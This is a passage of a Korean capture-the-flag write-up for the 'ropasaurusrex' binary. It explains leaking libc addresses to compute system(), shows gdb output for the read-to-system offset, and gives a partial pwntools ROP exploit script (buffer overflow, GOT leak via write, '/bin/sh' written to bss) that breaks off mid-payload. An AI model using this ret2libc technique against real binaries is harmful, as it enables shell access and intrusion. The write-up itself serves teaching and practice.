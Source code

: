먼저 생각해야 할 점은 Libc의 주소를 leak해야 하며, 이유는 system함수의 주소를 구하기 위함이다.

Libc에 주소를 구하는 방법은 여러가지 방법이 있다.

예를들어서 read함수의 주소를 구하고, 거기서 read함수의 offset을 빼면 Libc의 주소가 나온다.  
그리고 Libc주소에 system함수의 offset을 더하면 system함수의 주소가 된다.

즉 코드로 설명하면,

```python
libc_addr = read_addr - read_offset
system_addr = libc_addr + system_offset
```

<br>

또 다른 방법은 read주소와 system주소의 차이를 구한다.  
그리고 read함수의 주소를 leak하고 그 차이를 더하거나 빼면 system함수가 주소가 된다.

```shell
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e40da0 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xf7edbb00 <read>
gdb-peda$ p/x 0xf7edbb00 - 0xf7e40da0
$3 = 0x9ad60
```

```python
system_addr = read_addr - 0x9ad60
```
<br>

어떤 방법을 사용하던 편한 것으로 사용하면된다.  
필자는 2번째 방법을 사용하였다.

```python
from pwn import *

path = "./ropasaurusrex"

# prepare to exploit
read_plt = 0x804832c
read_got = 0x804961c
write_plt = 0x804830c
write_got = 0x8049614
read_system_offset = 0x9ad60
dummy = 0xdeadbeef
pppr = 0x080484b6
binsh = "/bin/sh"
binsh_len = len(binsh)

#p = remote("localhost", 7777)
p = process(path)
e = ELF(path)

# BoF
payload  = "A"*140

# read read_got leak
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(4)

# input "/bin/sh" into bss
payload += p32(read_plt)
payload += p32(pppr)
```
